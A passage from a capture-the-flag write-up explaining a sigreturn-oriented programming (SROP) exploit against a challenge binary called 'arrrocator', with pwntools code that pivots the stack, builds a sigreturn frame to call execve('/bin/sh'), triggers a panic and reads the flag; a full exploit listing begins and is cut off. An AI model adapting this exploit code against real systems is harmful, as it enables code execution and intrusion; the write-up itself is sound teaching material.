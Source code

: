 
If you dont know what an SROP is,
[it's a special technique that uses the sigreturn syscall to get control of all the registers](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming). You can image the syscall as a function that pops all the registers from the stack, and I mean all of them. This sounds great but might be a little bit annoying since we have to set the stack etc to values that make sense. We will use it to call the execve syscall with all registers set to proper values.

```python
    # The offset 184 is where return address after stack pivot happens to be.
    do_pivot = flat({
        184: p64(syscall_plt)
    })

    # Syscall gadget.
    ecall = 0x000000000005068c
    
    srop = flat({
        # pc
        304: p64(ecall),
        # a0-2
        384+8*0: p64(0x061600), # Address of /bin/sh.
        384+8*1: p64(0),
        384+8*2: p64(0),
        # a7
        384+7*8: p64(execve),
        # gp
        328: p64(0x41),
        # tp
        336: p64(0x42),
        # sp
        320: p64(0x43),
        # ra
        312: p64(0x44),
        # /bin/sh
        64: b"/bin/sh\x00"
    })
    srop = srop.ljust(1024-len(mem_start)-len(do_pivot), b"\xcc")
    
    io.sendlineafter(b"flag:", mem_start + do_pivot + srop + overflow)
```

... and after executing the execve syscall we get a shell ;). Because we overwrote the panic handler, we need to somehow trigger a panic. For example we can send a random input to the int parsing function which will cause a crash with `.unwrap()`.
```python
    io.sendlineafter(b"gimme", b"1")
    io.sendlineafter(b"Length", b"asd")
    io.sendline(b"cat flag")
```

### Full exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./arrrocator_patched")

context.binary = exe
context.terminal = "alacritty -e".split()


def conn():
    if args.LOCAL:
        if args.GDB:
```